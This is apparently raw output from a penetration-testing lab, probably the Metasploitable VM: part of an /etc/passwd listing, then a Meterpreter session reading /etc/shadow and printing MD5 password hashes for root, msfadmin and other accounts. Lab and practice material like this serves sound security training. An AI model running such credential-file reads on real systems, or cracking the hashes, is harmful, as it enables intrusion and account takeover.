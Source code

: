 ```
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:65534::/var/lib/snmp:/bin/false
```

```
meterpreter > cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
```